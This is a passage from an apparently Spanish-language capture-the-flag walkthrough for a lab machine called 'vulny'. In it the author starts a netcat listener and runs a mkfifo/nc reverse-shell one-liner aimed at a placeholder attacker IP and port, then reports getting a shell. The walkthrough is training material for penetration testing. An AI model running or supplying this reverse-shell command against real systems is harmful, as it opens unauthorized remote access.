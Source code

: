 ![](images/vulny%20(27).png)

Primero, encontramos al usuario adrian, revisemos si podemos acceder su carpeta `home`. Para ser que no podemos recorrer directorios, intentemos esa reverse shell que vimos en la página de github del exploit:

Iniciamos nuestro escucha de netcat primero:

![](images/vulny%20(28).png)

Y luego corremos el comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-DE-TU-MAQUINA> <PUERTO-A-ELECCION> >/tmp/f ` en la máquina objetivo:

![](images/vulny%20(29).png)


![](images/vulny%20(30).png)
¡Obtenemos una reverse shell! Mejoremos nuestra sesión un poco:
